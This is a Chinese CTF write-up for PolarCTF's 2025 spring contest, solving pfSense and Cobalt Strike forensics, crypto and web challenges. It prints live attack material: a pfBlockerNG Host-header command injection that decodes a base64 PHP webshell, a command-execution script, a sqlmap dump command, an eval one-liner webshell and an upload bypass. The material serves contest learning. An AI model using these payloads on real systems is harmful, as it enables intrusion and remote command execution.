# PolarCTF网络安全2025春季个人挑战赛-Writeup-先知社区

> **来源**: https://xz.aliyun.com/news/17370  
> **文章ID**: 17370

---

# MISC

## pfsense1

从流量数据包中找出攻击者利用漏洞开展攻击的会话，写出其中攻击者执行的命令中设置的flag内容

分析流量包：



在tcp流1中，发现命令：

```
echo 'PD8kYT1mb3BlbigiL3Vzci9sb2NhbC93d3cvc3lzdGVtX2FkdmFuY2VkX2NvbnRyb2wucGhwIiwidyIpIG9yIGRpZSgpOyR0PSc8P3BocCBwcmludChwYXNzdGhydSggJF9HRVRbImMiXSkpOz8+Jztmd3JpdGUoJGEsJHQpO2ZjbG9zZSggJGEpOz8+ZmxhZ3tjOTMwYTIwNzI5Y2Q3MTBjOWFjMmUxYmNkMzY4NTZlNX0='|python3.8 -m base64 -d | php;
```

解码以后：



得到flag{c930a20729cd710c9ac2e1bcd36856e5}

​

## pfsense2



通过攻击者的流量代码，我们可以知道攻击方式：

```
GET //pfblockerng/www/index.php HTTP/1.1
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Host: ' *; echo 'PD8kYT1mb3BlbigiL3Vzci9sb2NhbC93d3cvc3lzdGVtX2FkdmFuY2VkX2NvbnRyb2wucGhwIiwidyIpIG9yIGRpZSgpOyR0PSc8P3BocCBwcmludChwYXNzdGhydSggJF9HRVRbImMiXSkpOz8+Jztmd3JpdGUoJGEsJHQpO2ZjbG9zZSggJGEpOz8+ZmxhZ3tjOTMwYTIwNzI5Y2Q3MTBjOWFjMmUxYmNkMzY4NTZlNX0='|python3.8 -m base64 -d | php; '

```

这样可以成功写出shell

```
http://61.139.2.139/system_advanced_control.php?c=ls
```



使用find命令找到flag

```
find / -name "flag*" 2>/dev/null
```



得到flag:

  
flag{1b030dacb6e82a5cca0b1e6d2c8779fa}

​

## pfsense3

找出并提交受控机设备中普通用户的IPsec预共享密钥

​

这里直接找config.xml文件

```
find / -name "*config.xml" 2>/dev/null
```



得到flag

flag{bde4b5e2d0c43c177895f6f5d85beb97}

​

## WinCS1

受控机器木马的回连的ip地址和端口是？

我们进入虚拟机，查看火绒历史：



估计就是木马了，直接扔到微步云沙箱  


得到回连ip  
61.139.2.139:80

```
md5加密即可
flag{7f5804a75be7662bf6745457be3b1a18}
```

## WinCS2

这个地方，我们先从jhon文件夹中获得两张图片后面的信息，可以得到

```
.cobaltstrike.beacon_keys
```

此文件



用CTF-NETA工具进行CS流量分析即可  
  


得到密码P@ssW0rd@123

```
flag{P@ssW0rd@123}
```

## WinCS3

分析流量当中，攻击者查看的文件中flag内容是什么？

老样子：工具一把嗦  
  


得到flag

```
flag{31975589df49e6ce84853be7582549f4}
```

## WinCS4

.攻击者在攻击过程当中修改过的注册表目录是什么？（结果进行MD5加密）

还是工具：



得到路径：HKEY\_CURRENT\_USER\Software\Classes\mscfile\shell\open\command

```
flag{87a76255029843238bf87091dd5a6c88}
```

## WinCS5

.受控机当中加密文件的内容是什么？

在jhon目录下有一个压缩包，里面有flag.txt。根据CS流量解密，得到压缩包密码：



```
password :PolarCTF@2025Spring
```



得到flag

```
flag{fc51bd0633d256f2dcbe282efa205c3a}
```

## WinCS6

受控机木马的自启动文件路径是什么？

​

在此目录下发现：C:\Users\jhon\AppData\Local\Temp  
一个文件：power.bat  


成功发现启动文件。

得到路径C:\Users\jhon\AppData\Local\Temppower.bat

​

```
flag{d98e9debbda34967d9769b873302f67b}
```

## 可老师签到

运行exe答完题目即可，向公众号发送

```
flagflag
```

得到flag



# CRYPTO

## beginner

分析：要解密满足给定条件的 `flag.txt`，我们需要解决以下两个断言：

`len(flag) <= 50`（字节长度不超过 50）。

`flag` 的字节流转换为大整数后左移 10000 位的十进制表示以特定 125 位数字结尾。

### 解密思路

1. **数学转换**：将问题转化为同余方程，寻找满足条件的整数 `N`。
2. **模运算处理**：利用中国剩余定理和逆元计算，解决模数分解后的方程。
3. **字节流解码**：将找到的整数转换为字节流，并解码为 UTF-8 字符串。

解密代码：

```
def decrypt_flag():
    suffix = '16732186163543403522711798960598469149029861032300263763941636254755451456334507142958574415880945599253440468447483752611840'
    D = int(suffix)

    # 验证 D 是 2^125 的倍数
    if D % (2 ** 125) != 0:
        print("断言失败：D 必须能被 2^125 整除")
        return

    # 分解 D = 2^125 * D'
    D_prime = D // (2 ** 125)
    mod = 5 ** 125

    # 计算 2^9875 的逆元模 5^125
    pow_2_9875 = pow(2, 9875, mod)
    inv_2_9875 = pow(pow_2_9875, -1, mod)

    # 计算 N ≡ D' * inv(2^9875) mod 5^125
    N = (D_prime * inv_2_9875) % mod

    # 转换为字节流（自动计算长度）
    bytes_data = N.to_bytes((N.bit_length() + 7) // 8, 'big')

    # 检查长度是否合法
    if len(bytes_data) > 50:
        print("解超过 50 字节，不符合题目条件")
        return

    # 尝试 UTF-8 解码
    try:
        flag = bytes_data.lstrip(b'\x00').decode('utf-8')
        print("解密成功，Flag:", flag)
    except UnicodeDecodeError:
        print("解码失败，原始字节流（HEX）:", bytes_data.hex())


decrypt_flag()

```

​

得到flag:flag{qwert\_yuioplk\_jhgfdsa\_zxcv\_bnm}

​

​

## LCG

直接找网上现成的解法：

<https://blog.csdn.net/m0_74345946/article/details/132888135>

解密代码如下：

```
import gmpy2
import libnum

a =  156506070439514915241840745761803504236863873655854161309517219593159285490218416513868431750791509039364033002042672969954633160268127141912185884526880436614313300761314810148356686577662643452299620703125833160716418003026915719584690230453993382155777985020586206612864299316237848416232290650753975103343
b =  99238154412252510462155206432285862925162164007834452250464130686978914370223020006347851539449419633688760095534852514797292083351953228730558335170313299274579966373474363445106224340638196799329142279344558612634392675992734275683700752827665429269516389277374408716314038483357418130704741371183923688601
c =  46154227430594568448486764587707836676441274677362557668215680998009402508945237578201692757688901737765923819819981974561807236454825684824157481322486008937560337004555948283870920377643907746645702190355761172293685309340938249454686807948964629553755585562990983237480387614548526918576791297250747752579
m =  94993804003827679355988952056520996247311128806455111011781585397953533782675757682874584547665028872979112598462143541626190903596606261782592703863749024490737374603789002750194481545579020929239629410573307193150780522563772690101754723829224534622557370960012364614566294197235191962517037441643656951249

# c=(a*c0+b)%m
a_1=gmpy2.invert(a,m)

for i in range(2**16):
    c = (c - b) * a_1 % m
    #print(c)
    flag=libnum.n2s(int(c))
    if b'flag{' in flag:
        print(flag)
        break

```

# WEB

## 来个弹窗

看题目就是考XSS,这里直接用img标签绕过即可

```

```



成功弹窗，经过搜索得到名字：

```
白金之星
flag{dbd65172f0a14c279bc461cd0185c70a}
```

## background

进去以后直接看网页源码发现script.js

```

document.getElementById("change-bg-btn").onclick = function() {
  fetch("change_background.php", {
    method: "POST",
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded',
    },
    body: new URLSearchParams({
      d: "echo",
      p: "I will do it！"
    })
  })
    .then(response => response.text())
    .then(text => {
      const lines = text.split('
');
      const background = lines[0];     // 第一行是背景图路径
      const message = lines.slice(1).join('
');  // 其余是输出信息

      document.body.style.backgroundImage = `url(${background})`;
      document.getElementById("result").innerText = message;

```

明显得到两个路由，直接用，可以看到参数d是命令，参数p是值

这里直接改成cat /flag即可

```
import requests

# 目标服务器的URL
target_url = "http://335dd245-b77e-4af9-acf7-8be40bad86ce.www.polarctf.com:8090/change_background.php"


command = "cat"
params = "/flag"

# 发送恶意POST请求
response = requests.post(
    target_url,
    headers={"Content-Type": "application/x-www-form-urlencoded"},
    data={
        "d": command,  # 直接传递命令
        "p": params    # 传递参数
    }
)

# 输出服务器响应（调试用）
print(f"Status Code: {response.status_code}")
print(f"Response Text:
{response.text}")
```



得到flag  
flag{cc59f02fd69119d043f8b06d0ab3eb3f}

​

## xCsMsD

进去以后先注册一个用户，然后登录  


直接来到命令执行窗口：

抓包：



这里可以执行命令，但是通过测试发现空格以及目录符被替换，我们注意到  
cooike的位置：

```
%27+%27-%3E%27-%27%2C+%27%5C%27-%3E%27%2F%27
翻译过来就是
' '->'-', '\'->'/'
```

上述就是这么被替换了，所以构造命令

```
tac-\flag
```

得到flag



flag{e9964d01bda263f9aa86e69ce5bdfb47}

## 复读机RCE

直接扫描目录，访问flag.txt即可  


得到flag{12400320-EBCD-D827-09A8-B0D909863DB7}

​

​

## coke的登陆

访问链接抓包可以发现



提示了账号是coke,密码是coke-lishuai

直接登录即可  
得到flag:flag{ji\_xing\_duizhang}

​

## 0e事件

脑洞，只需要传入0e开头字符串，但是此字符串被MD5加密后还是0e开头：

```
0e215962017
```



flag：flag{adc394229ba455abbe56e057f20f883e}

​

## bllbl\_rce

目录扫描得到源码：/admin/admin.php

源码：

```
<!DOCTYPE html>
  <html lang="en">
  <head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Command Query Tool</title>
  </head>
  <body>
  <h1>Command Query Tool</h1>
  <form action="index.php" method="post">
  <label for="command">输入你的命令</label>
  <input type="text" id="command" name="command" required>
  <button type="submit">执行</button>
  </form>

  <?php
  if (isset($_POST['command'])) {
  $command = $_POST['command'];
if (strpos($command, 'bllbl') === false) {
  die("no");
}
echo "<pre>";
system ($command);
echo "</pre>";
}
?>
</body>
</html>

```

现在就很简单了，直接命令拼接即可：



flag:flag{86bef3c8c8dacf54b1726ccd2fb6a7d7}

​

## 投喂2.0

这题主要是注意路由地址即可，绕过文件上传利用文件后缀名解析进行绕过



即可；访问路径：/uploader/uploads/shell.php.a  
  


成功拿到flag  
flag{6a9eb04b47c945234afbee740bb3e190}

​

## 狗黑子CTF变强之路

访问链接看路由明显知道是文件包含，直接得到index.php源码  


```
<?php
if (isset($_GET['page'])) {
    $page = $_GET['page'];
    // 简单的文件类型检查，只允许包含 php 文件
    if (strpos($page, '.php')!== false) {
        include($page);
    } else {
        echo "只允许包含 php 文件";
    }
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>狗黑子的小破站</title>
    <style>
        body {
            display: flex;
            flex-direction: column;
            justify-content: center;
            align-items: center;
            min-height: 100vh;
            margin: 0;
        }
    .button {
            display: inline - block;
            padding: 10px 20px;
            margin: 10px;
            background-color: #4CAF50;
            color: white;
            text-decoration: none;
            border-radius: 5px;
        }
    .button:hover {
            background-color: #45a049;
        }
        #content {
            display: flex;
            flex-direction: column;
            align-items: center;
        }
    </style>
</head>
<body>
    <h1>欢迎来到 CTF 变强之路</h1>
    <div id="content">
        <form action="index.php" method="get">
            <input type="hidden" name="page" value="miji.php">
            <input type="submit" value="秘籍" class="button">
        </form>
        <form action="index.php" method="get">
            <input type="hidden" name="page" value="fabao.php">
            <input type="submit" value="法宝" class="button">
        </form>
        <form action="index.php" method="get">
            <input type="hidden" name="page" value="jinshouzhi.php">
            <input type="submit" value="金手指" class="button">
        </form>
    </div>
    <?php
    if (isset($_GET['page'])) {
        echo '<div id="display">';
    }
 ?>
</body>
</html>
<?php @eval($_POST['cmd'])?>

```



发现一句话木马，直接用即可



得到flag:

flag{698d51a19d8a121ce581499d7b701668}

​

## 再给我30元

sql注入，参数名id，利用sqlmap即可

```
sqlmap -u http://a7ab94d4-7d85-49fc-875c-3944505d80f7.www.polarctf.com:8090//?id=1 --batch --level=4 --risk=3 --random-agent -D WelcomeSQL  --dump
```

得到flag  
flag{0h\_no\_I\_w@nt\_too\_many\_￥30!!!}

## 

## 小白说收集很重要

访问链接  


  
扫描目录发现users.json



直接登录  


注意当前路由，提示我们要去admin的页面，  
当前路由：

```
http://9e0eefa5-c437-4490-bf3e-c9f975aba654.www.polarctf.com:8090/user_dashboard.php
```

猜测admin的页面为

```
http://9e0eefa5-c437-4490-bf3e-c9f975aba654.www.polarctf.com:8090/admin_dashboard.php
```



成功来到此页面，命令执行即可：



得到flag{150a4295992ba0d4c537ae945699a8c2}

​

​

## 椰子树晕淡水鱼

拿到题目，我们先进行目录扫描  


访问password,得到密码压缩包，暴力破解压缩包密码即可:压缩包密码：0606

得到password:

```
zhsh
2004
yzhsh
y2004
y183
zhshy
zhshzhsh
zhshzs
zhsh2004
zhsh183
zszhsh
zszs
zs2004
zs183
2004y
2004zhsh
2004zs
20042004
2004183
183y
183zhsh
183zs
1832004
183183
yyzhsh
yyzs
yy2004
yy183
yzhshy
yzhshzhsh
yzhshzs
yzhsh2004
yzhsh183
yzsy
yzszhsh
yzszs
yzs2004
yzs183
y2004y
y2004zhsh
y2004zs
y20042004
y2004183
y183y
y183zhsh
y183zs
y1832004
y183183
zhshyy
zhshyzhsh
zhshyzs
zhshy2004
zhshy183
zhshzhshy
zhshzhshzhsh
zhshzhshzs
zhshzhsh2004
zhshzhsh183
zhshzsy
zhshzszhsh
zhshzszs
zhshzs2004
zhshzs183
zhsh2004y
zhsh2004zhsh
zhsh2004zs
zhsh20042004
zhsh2004183
zhsh183y
zhsh183zhsh
zhsh183zs
zhsh1832004
zhsh183183
zsyy
zsyzhsh
zsyzs
zsy2004
zsy183
zszhshy
zszhshzhsh
zszhshzs
zszhsh2004
zszhsh183
zszsy
zszszhsh
zszszs
zszs2004
zszs183
zs2004y
zs2004zhsh
zs2004zs
zs20042004
zs2004183
zs183y
zs183zhsh
zs183zs
zs1832004
zs183183
2004yy
2004yzhsh
2004yzs
2004y2004
2004y183
2004zhshy
2004zhshzhsh
2004zhshzs
2004zhsh2004
2004zhsh183
2004zsy
2004zszhsh
2004zszs
2004zs2004
2004zs183
20042004y
20042004zhsh
20042004zs
200420042004
20042004183
2004183y
2004183zhsh
2004183zs
20041832004
2004183183
183yy
183yzhsh
183yzs
183y2004
183y183
183zhshy
183zhshzhsh
183zhshzs
183zhsh2004
183zhsh183
183zsy
183zszhsh
183zszs
183zs2004
183zs183
1832004y
1832004zhsh
1832004zs
18320042004
1832004183
183183y
183183zhsh
183183zs
1831832004
183183183
yzhsh
y2004
y183
zhshy
zhsh920
zhshzs
zhsh2004
zhsh183
zszhsh
zszs
zs2004
zs183
2004y
2004zhsh
2004zs
20042004
2004183
183y
183zhsh
183zs
1832004
183183
yyzhsh
yyzs
yy2004
yy183
yzhshy
yzhshzhsh
yzhshzs
yzhsh2004
yzhsh183
yzsy
yzszhsh
yzszs
yzs2004
yzs183
y2004y
y2004zhsh
y2004zs
y20042004
y2004183
y183y
y183zhsh
y183zs
y1832004
y183183
zhshyy
zhshyzhsh
zhshyzs
zhshy2004
zhshy183
zhshzhshy
zhshzhshzhsh
zhshzhshzs
zhshzhsh2004
zhshzhsh183
zhshzsy
zhshzszhsh
zhshzszs
zhshzs2004
zhshzs183
zhsh2004y
zhsh2004zhsh
zhsh2004zs
zhsh20042004
zhsh2004183
zhsh183y
zhsh183zhsh
zhsh183zs
zhsh1832004
zhsh183183
zsyy
zsyzhsh
zsyzs
zsy2004
zsy183
zszhshy
zszhshzhsh
zszhshzs
zszhsh2004
zszhsh183
zszsy
zszszhsh
zszszs
zszs2004
zszs183
zs2004y
zs2004zhsh
zs2004zs
zs20042004
zs2004183
zs183y
zs183zhsh
zs183zs
zs1832004
zs183183
2004yy
2004yzhsh
2004yzs
2004y2004
2004y183
2004zhshy
2004zhshzhsh
2004zhshzs
2004zhsh2004
2004zhsh183
2004zsy
2004zszhsh
2004zszs
2004zs2004
2004zs183
20042004y
20042004zhsh
20042004zs
200420042004
20042004183
2004183y
2004183zhsh
2004183zs
20041832004
2004183183
183yy
183yzhsh
183yzs
183y2004
183y183
183zhshy
183zhshzhsh
183zhshzs
183zhsh2004
183zhsh183
183zsy
183zszhsh
183zszs
183zs2004
183zs183
1832004y
1832004zhsh
1832004zs
18320042004
1832004183
183183y
183183zhsh
183183zs
1831832004
183183183
```

来到admin.php的界面：



成功爆破登录得到密码：

```
zhsh   //账号
zhsh920 //密码
```


熟悉的上传文件项目：利用MIME绕过即可  


访问执行命令即可：



得到flag:

flag{0aa3870e09b1e0210d050891a274ecb9}
